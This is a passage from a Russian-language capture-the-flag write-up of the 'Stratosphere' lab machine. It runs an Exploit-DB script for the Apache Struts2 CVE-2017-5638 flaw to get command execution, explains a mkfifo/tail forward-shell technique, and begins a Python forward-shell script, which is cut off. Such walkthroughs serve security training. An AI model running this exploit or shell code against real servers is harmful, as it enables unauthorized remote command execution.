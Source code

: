 ```
Apache Struts 2.5 < 2.5.12 - REST Plugin XStream Remote Code Execution                    | exploits/linux/remote/42627.py
-----------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Result
```

Похоже, `exploits/linux/webapps/41570.py` — именно то, что нам нужно. Этот скрипт представляет PoC уязвимости [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638 "NVD - CVE-2017-5638"), имеющей максимальный рейтинг опасности (10.0) и заключающейся в некорректной обработке исключений, вследствие которой аттакующий получает возможность выполнения произвольных команд на сервере.

Что ж, попробуем эксплоит в действии:
```text
root@kali:~# python /usr/share/exploitdb/exploits/linux/webapps/41570.py http://10.10.10.64/Monitoring/example/Welcome.action id
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: id

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)
```

И-и-и у нас есть RCE. Забегая вперед, должен сказать, что повысить привилегии до пользователя в рамках данного бокса можно было просто выполняя команды таким способом, без получения полноценного reverse-shell'а (который, как выяснилось, получить было невозможно в силу жесткой фильтрации http-трафика, возможно файервол). Однако, мы не ищем легких путей, к тому же это отличная возможность попробовать в действии один из способов сборки *forward-shell*'a.

## Forward-Shell
Основная идея такого способа получения командной строки заключается в создании на машине жертвы именованного канала (`stdin`) с помощью `mkfifo` и выходного файла, куда будет записываться вывод команд, (`stdout`). После чего к `stdin` с помощью утилиты `tail` привязывается процесс `/bin/sh`, вывод которого перенаправляется в `stdout`. Флаг `-f` утилиты `tail` обеспечивает сохранение процесса выполнения команд даже при достижении конца файла входного канала (когда команды не поступают). В представленном ниже скрипте используется именно такая логика, плюс на фоне поднимается параллельный поток, который с некоторым интервалом опрашивает `stdout` и возвращает его содержимое — результат выполнения последней команды:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Usage: python3 StratosphereFwdShell.py

import urllib.request as urllib2
import http.client as httplib
# _import socket

import base64
import random
import threading
import time


class Stratosphere:

	URL = r'http://10.10.10.64/Monitoring/example/Welcome.action'

	def __init__(self, interval=1.3):
		self.url = Stratosphere.URL

		session = random.randrange(10000, 99999)
		self.stdin = f'/dev/shm/input.{session}'
		self.stdout = f'/dev/shm/output.{session}'
		print(f'[*] Session ID: {session}')
```